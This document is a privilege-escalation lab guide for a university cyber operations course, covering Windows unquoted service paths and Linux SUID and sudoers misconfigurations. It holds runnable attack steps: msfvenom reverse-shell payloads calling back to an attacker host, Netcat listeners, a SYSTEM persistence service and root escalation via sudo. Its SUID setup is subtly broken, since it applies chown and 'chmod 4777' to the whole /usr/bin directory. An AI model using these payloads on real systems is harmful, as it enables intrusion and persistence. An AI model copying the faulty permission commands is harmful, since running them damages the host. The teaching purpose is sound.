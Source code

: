 # Security First Principles: Least Privilege Labs
Created for DSU's Cyber Operations I course

| Box Name | Type |
| -------- | ------- |
| Linux Exercises | Kali 2023.3 |
| Windows Exercises | Windows 10 Pro build 19044 |
* Windows Defender is disabled via Group Policy on the Windows Exercises box.

## Lab Exercise 1: Widnows Horizontal/Vertical PrivEsc
### Configuration
#### Horizontal PrivEsc via Unquoted Service Path
1. Add two additional users the box, with different passwords. One should be a standard user and the other should be an administrator. Use the administrator-level user for the following steps.
2. Create a "Step 4" folder on the desktop of the selected user.
3. Create a path in Program Files three folders deep with a dummy service executable (`C:\Program Files\[Level 1 Name]\[Level 2 Name]\[Dummy Service Executable]`).
     * Ensure the `Level 2 Name` contains a space (ex. `Service Run`)
     * This dummy executable won't be used, so pretty much any executable that isn't a shell works. I used `iexplore.exe`.
5. Edit the `Level 1 Name` folder properties to grant all users write permission (Properties > Security > Users > Edit > Write).
6. Create a new registry key in `HKLM\SYSTEM\CurrentControlSet\Services`. This key will be the service name.
7. Add the following values to the key:

    | Name | Type | Data |
    | -------- | ------- | ------- |
    | (Default) | REG_SZ | (value not set) |
    | DisplayName | REG_SZ | [Service Name] |
    | ErrorControl | REG_DWORD | 0x00000001 (1) |
    | ImagePath | REG_EXPAND_SZ | [Path to Dummy Service Executable **without quotes**] |
    | ObjectName | REG_SZ | .\\[User Name] |
    | Start | REG_DWORD | 0x00000002 (2) |
    | Type | REG_DWORD | 0x00000010 (16) |

8. Restart the box.
9. Open the Services MMC snap-in. The `[Service Name]` should appear in the list. Ensure the startup type is set to Automatic so it executes when the box starts.

#### Vertical PrivEsc
1. Temporarily elevate the service created in Horizontal PrivEsc to system (Properties > Log on > Log on as: > Local System account).
2. Get a SYSTEM shell by following the steps in [Horizontal PrivEsc Exploitation](#Horizontal-PrivEsc-via-Unquoted-Service-Path).
3. Create the "Step 6" folder in C:\Windows\System32.
4. Restore the service created in Horizontal PrivEsc to running as the selected user (Properties > Log on > Log on as: > This account: > [select account via Browse and provide password]).

### Exploitation
#### Horizontal PrivEsc via Unquoted Service Path
1. Log on to the second user created in Configuration step 1.
2. Create a simple TCP reverse shell with `msfvenom` on the Linux Exercises box:
      * In the example above, this would be `Service.exe`.
      * There is a preconfigured binary with the IP address of the Linux Exercises box and name `Service.exe` in the Windows PrivEsc folder in the repo. It connects to port 1337.

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP address of Linux Exercises box> LPORT=1337 -f exe -o [First word of Level 2 Name].exe
```

2. SCP the generated file from the Linux Exercises box to `C:\Program Files\[Level 1 Name]` on the Windows Exercises box.
3. Start a Netcat listener on the Linux Exercises box with `nc -nvlp 1337`.
4. Restart the Windows Exercises box. A Windows shell should spawn in the Netcat session with the permissions of the first user. Use `whoami` to verify this.

#### Vertical PrivEsc
1. Get an administrator shell by following the steps in [Horizontal PrivEsc Exploitation](#Horizontal-PrivEsc-via-Unquoted-Service-Path).
2. Create another simple TCP reverse shell with `msfvenom` on the Linux Exercises box, but it listens on a different port and can use any file name:
      * There is a preconfigured binary with the IP address of the Linux Exercises box and name `Service2.exe` in the Windows PrivEsc folder in the repo. It connects to port 1338.

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP address of Linux Exercises box> LPORT=1338 -f exe -o [Filename].exe
```

3. SCP the generated file from the Linux Exercises box to the Windows Exercises box. The location is insiginficant.
4. On the administrator shell, create a SYSTEM-level service that runs the file automatically on startup:

```
sc create [ServiceName] binPath= "[C:\Path\To\New\Shell.exe]" start= auto
```

5. Start a Netcat listener on the Linux Exercises box with `nc -nvlp 1338`.
6. Restart the Windows Exercises box. A Windows shell should spawn in the Netcat session with the permissions of SYSTEM. Use `whoami` to verify this.

## Lab Exercise 2: Linux Horziontal PrivEsc via SUID
### Configuration
1. Add two additional users the box, with different passwords. Only one of these users should be allowed to use `sudo`. Use the sudo-enabled user for the following steps.
2. Create a "Step 4" folder on the desktop of the first user.
3. Build the modified Bash shell in the Linux PrivEsc/Lab 2 folder in the repo with `./configure` and `make`. Name it `shell`.
      * This modification always runs the Bash shell in privileged mode (so that the SUID bit won't be [ignored by default](https://www.gnu.org/software/bash/manual/bash.html)).
      * A pre-built `shell` for the Linux Exercises box is also in the folder.
4. Place the `shell` in the `/usr/bin` folder.
5. Set the owner and group (if applicable) and the SUID bit on the file:
      * If set correctly, permissions should be `-rwSrwxrwx` and the user and group will be the first user.

```
chown [first user] /usr/bin
chgrp [first user] /usr/bin
chmod 4777 /usr/bin
chmod u-x /usr/bin
```

### Exploitation
1. Log on to the second user created in Configuration step 1.
2. Execute the `/usr/bin/shell` file. A Bash shell should spawn with the permissions of the first user. Use `whoami` to verify this.

## Lab Exercise 3: Linux Vertical PrivEsc via visudo
### Configuration
1. Using `sudo` as the first user, create a "Step 5" folder in the home directory of the root user.
2. Use `visudo` to edit the `/etc/sudoers` file. Add a line for your second user to allow them to run `visudo` beneath the root user:
      * A preconfigured `/etc/sudoers` file is `sudoers.old` in the Linux PrivEsc/Lab 3 folder in the repo as well.

```
# User privilege specification
root	ALL=(ALL:ALL) ALL
[second user name]	ALL=/usr/sbin/visudo
```

3. Save the file

### Exploitation
1. Run `visudo` as the second user.
2. Append `,/usr/bin/su` to the privilege specifcation for the second user:
      * A preconfigured `/etc/sudoers` file is `sudoers` in the Linux PrivEsc/Lab 3 folder in the repo as well.

```
# User privilege specification
root	ALL=(ALL:ALL) ALL
[second user name]	ALL=/usr/sbin/visudo,/usr/bin/su
```

3. Save the file
4. Run `sudo su` as the second user. A root shell will spawn.

## Puzzler: Correcting PrivEsc Vulnerabilities
